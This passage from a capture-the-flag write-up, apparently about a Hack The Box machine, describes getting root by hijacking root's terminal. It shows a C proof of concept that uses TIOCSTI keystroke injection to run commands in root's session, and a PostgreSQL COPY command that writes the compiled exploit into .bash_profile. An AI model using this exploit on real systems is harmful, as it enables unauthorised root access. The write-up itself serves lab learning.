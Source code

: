 However, the shell dies quickly, presumably because the connection cuts out when `root` runs `su -l` again. At least I know that this works.&#x20;

### TTY Hijack --> Root

I found it rather odd that `su -l` was used instead of a regular `su`. Using `w`, we know that `root` is logged in and has a TTY shell of its own.

```
wesley@download:/tmp$ w                                                                      
 04:47:53 up  8:33,  3 users,  load average: 0.33, 0.37, 0.35                                
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT                          
wesley   pts/0    10.10.14.7       03:02    0.00s  0.34s  0.01s w
root     pts/1    127.0.0.1        04:47   13.00s  0.08s  0.04s /usr/lib/postgresql/12/bin/p
```

I was thinking whether there were ways to hijack this session. Searching for `root su hijack` shows me this article:

{% embed url="https://ruderich.org/simon/notes/su-sudo-from-root-tty-hijacking" %}

The website above included a PoC in C. I changed the command executed first to test it:

```c
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/ioctl.h>
int main() {
    int fd = open("/dev/tty", O_RDWR);
    if (fd < 0) {
        perror("open");
        return -1;
    }
    char *x = "exit\n/bin/bash -c 'cp /root/root.txt /tmp/root.txt'\n";
    while (*x != 0) {
        int ret = ioctl(fd, TIOCSTI, x);
        if (ret == -1) {
            perror("ioctl()");
        }
        x++;
    }
    return 0;
}
```

Then, I compiled it using `gcc` and transferred to the machine and then ran `chmod` on it. Afterwards, I ran the same SQL command to execute this compiled exploit as `root`:

```sql
COPY (SELECT CAST('/tmp/exploit' AS text)) TO '/var/lib/postgresql/.bash_profile';
```

After waiting for a bit, the `root` flag appeared within the `/tmp` directory, confirming that it works:

<figure><img src="../../.gitbook/assets/image (4153).png" alt=""><figcaption></figcaption></figure>
